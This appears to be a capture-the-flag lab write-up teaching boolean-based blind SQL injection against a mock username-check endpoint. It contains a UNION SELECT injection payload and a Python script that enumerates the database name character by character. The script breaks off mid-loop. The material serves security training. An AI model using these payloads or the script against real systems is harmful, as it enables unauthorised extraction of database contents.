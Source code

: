 Boolean-based SQL Injection refers to the response we receive from our injection attempts, which could be a true/false, yes/no, on/off, 1/0 or any response that can only have two outcomes. That outcome confirms that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, with just these two responses, it's possible to enumerate a whole database structure and contents.


### Practical:

On level three of the SQL Injection Examples Machine, you're presented with a mock browser with the following URL:

`https://website.thm/checkuser?username=admin`


The browser body contains  `{"taken":true}`. This API endpoint replicates a common feature found on many signup forms, which checks whether a username has already been registered to prompt the user to choose a different username. Because the taken value is set to true, we can assume the username admin is already registered. We can confirm this by changing the username in the mock browser's address bar from admin to admin123, and upon pressing enter, you'll see the value taken has now changed to false.


The SQL query that is processed looks like the following:


`select * from users where username = '%username%' LIMIT 1;`


The only input we have control over is the username in the query string, and we'll have to use this to perform our SQL injection. Keeping the username as admin123, we can start appending to this to try and make the database confirm true things, changing the state of the taken field from false to true.

Our first task is to discover the database name. We can do this by using the built-in database() method and then using the like operator to try and find results that will return a true status.

`admin123' UNION SELECT 1,2,3 where database() like '%';--`


We get a true response because, in the like operator, we just have the value of %, which will match anything as it's the wildcard value. If we change the wildcard operator to `a%`, you'll see the response goes back to false, which confirms that the database name does not begin with the letter a. We can cycle through all the letters, numbers and characters such as - and _ until we discover a match. If you send the below as the username value, you'll receive a true response that confirms the database name begins with the letter `s`.

To automatic the process, I used the following script:

```python
import requests
import string

url = "https://10-10-232-209.p.thmlabs.com/run"
chars = string.ascii_letters + string.digits + "_"
currentfound = ""

while True:
    found_char = False  
    for char in chars:
        payload = (
            f"level=3&sql=select * from users where username = 'nglong05' "
            f"union select null, null, null where database() like '{currentfound + char}%';--"
        )
        response = requests.post(url, data=payload)

        if '"message":"true"' in response.text:
            currentfound += char  
            print(f"Current database name: {currentfound}")
            found_char = True
            break  
```